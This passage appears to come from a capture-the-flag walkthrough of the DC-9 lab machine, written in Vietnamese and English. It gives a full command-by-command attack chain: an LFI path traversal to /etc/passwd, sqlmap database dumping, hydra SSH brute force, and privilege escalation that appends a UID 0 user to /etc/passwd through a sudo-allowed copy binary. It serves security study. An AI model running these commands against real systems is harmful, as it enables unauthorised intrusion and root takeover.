drwx------  3 janitor janitor 4096 Apr 20 03:41 .gnupg
drwx------ 2 janitor janitor 4096 Dec 29  2019 .secrets-for-putin
```

> 🔍 **Interesting findings:**
> - `.bash_history` symlinked to `/dev/null` — admin cố gắng xóa command history
> - Thư mục `.secrets-for-putin` — tên đáng ngờ!

### 7.5 Exploring `.secrets-for-putin`

```bash
cd .secrets-for-putin
ls -la
cat passwords-found-on-post-it-notes.txt
```


```
drwx------ 2 janitor janitor 4096 Dec 29  2019 .
drwx------ 4 janitor janitor 4096 Apr 20 03:41 ..
-rwx------ 1 janitor janitor   66 Dec 29  2019 passwords-found-on-post-it-notes.txt
```

**File content:**

```
BamBam01
Passw0rd
smellycats
P0Lic#10-4
B4-Tru3-001
4uGU5T-NiGHts
```

> 💡 **Passwords phát hiện:**
> - `BamBam01` — đã có (bettyr)
> - `Passw0rd` — đã có (joeyt)
> - `smellycats` — đã có (phoebeb)
> - **`P0Lic#10-4`** — **MỚI!**
> - **`B4-Tru3-001`** — **MỚI!**
> - **`4uGU5T-NiGHts`** — **MỚI!**

### 7.6 Switch User to fredf

Thử passwords mới với user `fredf` (Systems Administrator — high privilege target):

```bash
su - fredf
```

**Try passwords:**
- P0Lic#10-4 → Failed
- **B4-Tru3-001** → **SUCCESS!**



```
Password: 
Linux dc-9 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u2 (2019-11-11) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.

fredf@dc-9:~$ dir
local.txt

fredf@dc-9:~$ cat local.txt
4dc00f5b0aeb776615e5ddd22bd2c22
```

> 🚩 **Local flag (User flag):** `4dc00f5b0aeb776615e5ddd22bd2c22`

---

## 8. Privilege Escalation — /etc/passwd Overwrite

### 8.1 Checking Sudo Permissions

```bash
sudo -l
```



```
Matching Defaults entries for fredf on dc-9:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User fredf may run the following commands on dc-9:
    (root) NOPASSWD: /opt/devstuff/dist/test/test
```

> 🎯 **Privilege Escalation Vector Found:**
> 
> User `fredf` có thể chạy `/opt/devstuff/dist/test/test` với quyền root **KHÔNG CẦN PASSWORD** (NOPASSWD).

### 8.2 Analyzing the Binary

```bash
file /opt/devstuff/dist/test/test
```

```
/opt/devstuff/dist/test/test: ELF 64-bit LSB executable, x86-64, dynamically linked
```

**Test binary behavior:**

```bash
/opt/devstuff/dist/test/test
```

```
Usage: ./test <file1> <file2>
```

Binary nhận 2 arguments. Test với 2 files:

```bash
echo "test content" > /tmp/source
/opt/devstuff/dist/test/test /tmp/source /tmp/destination
cat /tmp/destination
```

Output:
```
test content
```

> 💡 **Binary functionality discovered:**
> 
> Binary **COPY nội dung từ file1 sang file2**. Khi chạy với sudo, nó có quyền ghi vào **BẤT KỲ FILE NÀO** trên hệ thống!

### 8.3 Exploit Strategy

**Attack plan:**
1. Tạo password hash mới cho root user
2. Tạo entry mới trong `/tmp/root2` với UID=0 (root privileges)
3. Sử dụng sudo binary để append entry vào `/etc/passwd`
4. Login với root account mới

### 8.4 Generate Password Hash

```bash
openssl passwd -1 123
```



Output:
```
$1$new$p7ptkEKU9lpLpWSYKHXWm/
```

### 8.5 Create Malicious /etc/passwd Entry

```bash
echo "root2:\$1\$new\$p7ptkEKU9lpLpWSYKHXWm/:0:0:root:/root:/bin/bash" > /tmp/root2
cat /tmp/root2
```

Output:
```
root2:$1$new$p7ptkEKU9lpLpWSYKHXWm/:0:0:root:/root:/bin/bash
```

**Entry structure:**
- `root2` — New username
- `$1$new$p7ptkEKU9lpLpWSYKHXWm/` — MD5 password hash (password: `123`)
- `0:0` — UID:GID = 0 (root privileges)
- `/root` — Home directory
- `/bin/bash` — Default shell

### 8.6 Append to /etc/passwd

```bash
sudo /opt/devstuff/dist/test/test /tmp/root2 /etc/passwd
```


**Verify entry was added:**

```bash
tail -n 5 /etc/passwd
```

```
scoots:x:1015:1015:Scooter McScoots:/home/scoots:/bin/bash
janitor:x:1016:1016:Donald Trump:/home/janitor:/bin/bash
janitor2:x:1017:1017:Scott Morrison:/home/janitor2:/bin/bash
gemini$1$gemini$Y8p0Q5ThOcR3V22qV24Nn0:0:root:/home/gemini:/bin/bash
root2:$1$new$p7ptkEKU9lpLpWSYKHXWm/:0:0:root:/root:/bin/bash
```

> ✅ **Entry successfully appended!** New user `root2` with UID=0 added to `/etc/passwd`.

### 8.7 Escalate to Root

```bash
su root2
# Password: 123
```


```
fredf@dc-9:~$ su root2
Password: 
root@dc-9:/home/fredf# id
uid=0(root) gid=0(root) groups=0(root)
root@dc-9:/home/fredf# cd /root
root@dc-9:~# ls
proof.txt
root@dc-9:~# cat proof.txt
4050f182ec9c20e478066bd22bd2c22
root@dc-9:~#
```

> 🚩 **Root flag (proof.txt):** `4050f182ec9c20e478066bd22bd2c22`

---

## 9. Flags & Answers Summary

| Flag | Location | Value |
|---|---|---|
| Local Flag (User) | `/home/fredf/local.txt` | `4dc00f5b0aeb776615e5ddd22bd2c22` |
| Proof Flag (Root) | `/root/proof.txt` | `4050f182ec9c20e478066bd22bd2c22` |

---

## 10. Attack Chain Summary

```
[1] nmap -Pn -p- --min-rate 5000 192.168.206.209
        → Port 22 (filtered), 80 (open)

[2] nmap -sC -sV -A -Pn -p 22,80 192.168.206.209
        → OpenSSH 7.9p1 Debian, Apache 2.4.38
        → HTTP title: Example.com - Staff Details

[3] Browse http://192.168.206.209/
        → Staff Details Management System
        → Menu: Home, Display All Records, Search, Manage

[4] gobuster dir -u http://192.168.206.209 -w wordlist.txt -x php
        → /manage.php, /search.php, /config.php, /session.php

[5] Browse http://192.168.206.209/manage.php
        → "You are already logged in as admin"
        → Error: "File does not exist"

[6] LFI test: http://192.168.206.209/manage.php?file=../../../../../../etc/passwd
        → Success! /etc/passwd disclosed
        → Users enumerated: fredf, janitor, joeyt, etc.

[7] Test Search function → Burp Suite capture
        → POST /search.php with parameter search=hehe
        → Save to request.txt

[8] sqlmap -r request.txt --batch --dump-all
        → SQL Injection confirmed (time-based blind)
        → Database Staff.Users: admin:856f5de590ef37314e7c3bdf6f8a66dc
        → Database users.UserDetails: 17 entries with passwords

[9] Crack MD5 hash
        → admin:856f5de590ef37314e7c3bdf6f8a66dc → transorbital1

[10] Error message in /manage.php reveals knock sequence
        → [openSSH] sequence = 7469,8475,9842

[11] knock 192.168.206.209 7469 8475 9842
        → SSH port opened successfully

[12] nmap -p 22 192.168.206.209
        → PORT 22/tcp STATE open SERVICE ssh

[13] hydra -L users.txt -P pass.txt ssh://192.168.206.209 -t 4
        → joeyt:Passw0rd
        → janitor:Ilovepeepee

[14] ssh janitor@192.168.206.209 (Password: Ilovepeepee)
        → Login successful
        → Found .secrets-for-putin/passwords-found-on-post-it-notes.txt

[15] cat passwords-found-on-post-it-notes.txt
        → B4-Tru3-001, P0Lic#10-4, 4uGU5T-NiGHts

[16] su - fredf (Password: B4-Tru3-001)
        → Success! Local flag: 4dc00f5b0aeb776615e5ddd22bd2c22

[17] sudo -l
        → fredf can run /opt/devstuff/dist/test/test as root NOPASSWD

[18] Test binary: /opt/devstuff/dist/test/test /tmp/a /tmp/b
        → Binary copies file1 to file2

[19] openssl passwd -1 123
        → $1$new$p7ptkEKU9lpLpWSYKHXWm/

[20] echo "root2:\$1\$new\$p7ptkEKU9lpLpWSYKHXWm/:0:0:root:/root:/bin/bash" > /tmp/root2

[21] sudo /opt/devstuff/dist/test/test /tmp/root2 /etc/passwd
        → Entry appended successfully

[22] su root2 (Password: 123)
        → Root shell obtained ✓
        → Proof flag: 4050f182ec9c20e478066bd22bd2c22
```

---

## 11. Tools Used

| Tool | Purpose |
|---|---|
| `nmap` | Port scanning (`-Pn -p- --min-rate`) & service fingerprinting (`-sC -sV -A`) |
| `gobuster` | Directory/file enumeration with extensions (`-x php,txt,html`) |
| Firefox/Browser | Web application testing, LFI exploitation |
| Burp Suite | HTTP request interception and modification |
| `sqlmap` | Automated SQL injection exploitation and database dumping |
| CrackStation / `hashcat` | MD5 hash cracking (admin password) |
| `knock` | Port knocking to open filtered SSH port |
| `hydra` | SSH credential bruteforce attack |
| `ssh` | Remote shell access |
| `openssl` | Generate MD5 password hash for /etc/passwd entry |
| `sudo` | Execute binary with root privileges for privilege escalation |

---

**End of Walkthrough**
